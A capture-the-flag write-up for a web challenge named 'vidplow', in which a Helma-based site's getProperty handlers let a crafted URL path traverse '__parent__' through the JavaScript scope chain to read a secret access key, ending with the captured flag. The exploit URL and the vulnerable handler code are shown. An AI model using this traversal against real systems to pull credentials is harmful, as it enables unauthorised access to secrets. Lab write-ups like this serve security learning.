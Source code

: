 ```yaml
---
tags: 
references:
---
```

# vidplow
Solves: 
Tags: 
## Description
> We recently stumbled upon an exposed SVN server of a large multimedia corporation, containing some of the code of their backend applications and internal tooling. However, the access keys seem to not be the ones used in production - the real ones should fetch us quite a high price though, if we manage to get our hands on them that is. Just one problem - the tech stack seems to be really obscure, and no one on our team has any clue what the heck is even going on. Can you take a look, and maybe find some vulnerabilities in this thing?
## Overview
It's a static website made with [Helma](https://github.com/helma-org/helma?tab=readme-ov-file)
## Road to flag
The flag is in `app.properties`
## Code review
types
```
# category
name
description

# property
obj
name

# video
name
producer
year
description
```

handlers
```js
// video
function getProperty(name) {
    if (name == "category") {
        return this._parent;
    } else {
        return this[name];
    }
}

// property
function getProperty(name) {
    var prop = this.obj.getProperty(this.name);
    if (prop && prop.getProperty) {
        return prop.getProperty(name);
    } else {
        return null;
    }
}

// category
function getProperty(name) {
    if (name == "name") {
        return this.name;
    } else if (name == "description") {
        return this.description;
    } else if (name == "parent") {
        return this._parent;
    } else {
        return null;
    }
}
```

`edit.hac`
```
res.data.value = this.obj.getProperty(this.name);
res.data.body = this.renderSkinAsString("edit");
this.renderSkin("page");
```
## Exploitation
JS scope chain: http://dmitrysoshnikov.com/ecmascript/javascript-the-core/#scope-chain

`https://3ndbdvaok1gxhfxa.dyn.acsc.land/Documentary/Corporate+Wars%3A+Behind+the+Curtain/__parent__/AccessKey`

`dach2025{wh0_n33ds_n0de_j5_anyw4y_wges1dkzxfzp1cn9}`